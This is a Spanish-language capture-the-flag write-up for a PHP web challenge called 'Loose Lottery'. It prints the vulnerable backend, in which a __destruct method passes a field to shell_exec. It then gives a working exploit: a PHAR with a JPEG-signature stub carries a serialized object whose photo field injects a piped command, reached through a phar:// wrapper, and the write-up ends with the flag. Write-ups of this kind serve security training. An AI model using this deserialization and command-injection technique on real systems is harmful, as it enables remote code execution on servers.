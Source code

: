 # Web / Loose Lottery

Nos piden intoducir un numero para ganar el premio, el numero se encuentra en un comentario del codigo fuente de la pagina:

![1](https://github.com/user-attachments/assets/f2cb548e-c30e-44f3-9278-6e91c0734be6)

Al introducirlo nos dicen que el numero es demasiado grande, podemos convertirlo a hexadecimal para que funcione:

![2](https://github.com/user-attachments/assets/25594faa-6e97-4a81-bb20-d72b6bf47f69)

Una vez dentro, subimos una imagen y vamos a http://mctf-game.ru:4000/winner.php?winner=user.jpg presionando en el botón 'Learn more' y después presionamos en 'View Source Code' para ir a http://mctf-game.ru:4000/winner.php?source e inspeccionar el codigo fuente del backend php de la ruta

``` php
<?php
if (isset($_GET["source"])) highlight_file(__FILE__) && die();

session_start();

if (!isset($_SESSION['user_id'])) {
    header('Location: index.php');
    exit;
}

chdir('uploads/' . $_SESSION['user_id']);
class UserInfo
{
    public $name;
    public $info;
    public $photo;
    private $deletePhoto = false;

    public function __construct($info, $photo, $name)
    {
        $this->name = $name;
        $this->info = $info;
        $this->photo = $photo;
    }

    public function requestDelete()
    {
        $this->deletePhoto = true;
    }

    public function __destruct()
    {
        if ($this->deletePhoto && $this->photo) {
            echo shell_exec('rm ' . $this->photo);
            $this->photo = '';
        }
    }
}

function getWinnerInfo()
{
    if (isset($_GET['winner'])) {
        if ($_GET['winner'] === 'first.jpg') {
            return new UserInfo(
                'Legend.',
                'uploads/' . ($_SESSION['user_id']) .'/first.jpg',
                'First Winner'
            );
        } else if (!strpos($_GET['winner'], "..") && file_exists($_GET['winner'])) {
            return new UserInfo(
                isset($_SESSION['info']) ? $_SESSION['info'] : 'No information',
                isset($_SESSION['photo']) ? $_SESSION['photo'] : '',
                'You'
            );
        }
    }
    return null;
}

$winner = getWinnerInfo();

if (isset($_GET['delete'])) {
    $winner->requestDelete();
    header("Location: winner.php?winner=user.jpg");
    exit;
}
?>

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <title>Winner Info</title>
    <link href="https://cdn.jsdelivr.net/npm/bootstrap@5.0.2/dist/css/bootstrap.min.css" rel="stylesheet" crossorigin="anonymous">
    <link href="https://fonts.googleapis.com/css2?family=Black+Ops+One&display=swap" rel="stylesheet">
    <link rel="stylesheet" href="css/style.css">
</head>
<body>

<div class="winner-header text-center">
    <h1>Winner Information</h1>
</div>

<div class="container mt-5">
    <h3 class="text-center"><?php echo $winner->name; ?></h3>
    <div class="row justify-content-center">
        <div class="col-md-6 text-center">
            <div class="card mb-4 shadow-sm">
                <div class="card-body">
                    <h5 class="card-title">About Winner</h5>
                    <p class="card-text"><?php echo $winner->info; ?></p>
                </div>
            </div>
            <?php if ($winner->photo): ?>
                <div class="card mb-4 shadow-sm winner-card">
                    <img src="<?php echo $winner->photo; ?>" class="card-img-top" alt="Winner's photo">
                </div>
            <?php else: ?>
                <div class="alert alert-warning" role="alert">
                    No photo uploaded.
                </div>
            <?php endif; ?>
        </div>
    </div>
    <div class="text-center mt-4">
        <a href="winners.php" class="btn btn-primary">Return to the winners list</a>
        <?php if ($winner->name === 'You'): ?>
            <a href="winner.php?winner=user.jpg&delete" class="btn btn-danger">Delete Photo</a>
        <?php endif; ?>
        <a href="win.php" class="btn btn-secondary">Back to Upload Page</a>
    </div>

    <a href="?source" class="btn btn-outline-secondary" id="view-source-btn">View Source Code</a>
</div>

<footer class="text-center mt-5 py-4" style="background-color: #4caf50; color: white;">
    <p>© 2024 SCAM INC. All rights reserved.</p>
</footer>

<script src="https://cdn.jsdelivr.net/npm/bootstrap@5.0.2/dist/js/bootstrap.bundle.min.js" crossorigin="anonymous"></script>
</body>
</html>
``` 

Viendo el codigo fuente en la funcion __destruct se ejecuta un comando del sistema con shell_exec. Sabiendo que los metodos __construct y __destruct se ejecutan cuando se crea y se destruye una instancia de una clase respectivamente, pero **tambien cuando un objeto es deserializado**, y que podemos subir archivos entonces lo que podemos hacer es subir una archivo PHAR con los bytes de la firma de una archivo JPG para pasar la verificacion.

Creamos un archivo php con las instrucciones para crear un archivo phar:

``` php
<?php
 // payload.php
class UserInfo
{
    public $name = 'foo';
    public $info = 'bar';
    public $photo = ' | ls ';
    private $deletePhoto = true;
}

$phar = new Phar('shell.phar'); 
$phar->startBuffering();
$phar->setStub("\xFF\xD8\xFF\xFE\x13\xFA\x78\x74 __HALT_COMPILER(); ?>");

$object = new UserInfo();
$phar->setMetadata($object);
$phar->stopBuffering();
?>
```

En el codigo anterior hay que aclarar algunos puntos:
+  `private $deletePhoto = true`; para que __destruct ejecute el comando
+  `public $photo = ' | ls ';` ejecutará ***echo rm | ls***
+  `$phar->setStub("\xFF\xD8\xFF\xFE\x13\xFA\x78\x74...)` establece los bytes de cabecera para que la firma del archivo sea como la de un jpg 

Compilamos el codigo, verificamos la firma y lo subimos al sitio:
``` bash
>> php --define phar.readonly=0 payload.php 
>> file shell.phar 
shell.phar: JPEG image data
```

Vamos a http://mctf-game.ru:4000/winner.php?winner=phar://user.jpg/test.txt y vemos entre los archivos listados a ' flag_d84d024ba050e1a9062915b50db40c89'

![flag](https://github.com/user-attachments/assets/973bbaf7-44af-47e8-b3b3-4d3e33272460)

Modificamos una linea para cambiar el comando a ejecutar, hacemos el proceso de nuevo y obtenemos la flag
``` php
 public $photo = ' | cat  flag_d84d024ba050e1a9062915b50db40c89 ';
```

![flag2](https://github.com/user-attachments/assets/5a8b008a-605b-42a6-9026-9dd867cb48ca)

`mctf{M41n_53cR37_E70gO_k4Z1n0} `



